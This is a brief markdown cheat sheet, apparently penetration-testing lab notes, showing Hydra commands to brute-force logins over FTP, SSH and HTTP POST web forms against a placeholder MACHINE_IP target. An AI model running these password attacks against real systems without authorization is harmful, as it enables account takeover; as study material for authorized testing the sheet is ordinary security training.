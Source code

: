 # Hydra cheat sheet

## Install
sudo apt install hydra

## FTP
hydra -l user -P passlist.txt ftp://MACHINE_IP

## SSH
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh

## Web forms
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

